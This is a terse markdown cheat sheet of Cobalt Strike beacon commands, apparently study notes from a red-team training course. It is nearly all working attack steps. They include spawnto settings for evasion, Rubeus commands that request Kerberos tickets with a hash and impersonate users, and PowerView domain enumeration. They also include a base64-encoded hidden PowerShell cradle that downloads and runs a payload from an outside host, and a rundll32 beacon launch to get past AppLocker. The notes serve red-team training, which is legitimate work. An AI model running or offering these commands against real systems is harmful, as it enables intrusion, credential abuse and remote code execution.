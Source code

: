 ```
spawnto x64 %windir%\sysnative\dllhost.exe
```

```
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

List listening bindings
```
run netstat -anp tcp
```

To get beacon to send the info of itself to c2
```
checkin
```

Impersionation with ticket

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:username /password:FakePass /ticket:doIFwj[...]MuSU8=
setal_token xxx

```

Import Powerview

```
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Convert SID
```
powershell ConvertFrom-SID
```

Pwshell encode
```
PS C:\> 

$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/c"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))



powershell -w hidden -enc blabla
```

## Recon

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38125201-powerview)

### Get-DomainUser
Get users and propierties
```
powershell Get-DomainUser -Properties DisplayName, MemberOf | fl
```


### Get-DomainComputer
Get computers

```
powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
```

### Get-DomainGroup

Return all domain groups or specific domain group objects.

```
powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName
```

### Get-DomainGPOUserLocalGroupMapping

Enumerate the machines where a specific domain user/group is a member of a specific local group

```
powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl
```

## Applocker sus

As previously mentioned, DLL enforcement is not commonly enabled which allows us to call exported functions from DLLs on disk via rundll32.  Beacon's DLL payload exposes several exports including DllMain and StartW.  These can be changed in the Artifact Kit under src-main, dllmain.def.

C:\Windows\System32\rundll32.exe http_x64.dll,StartW
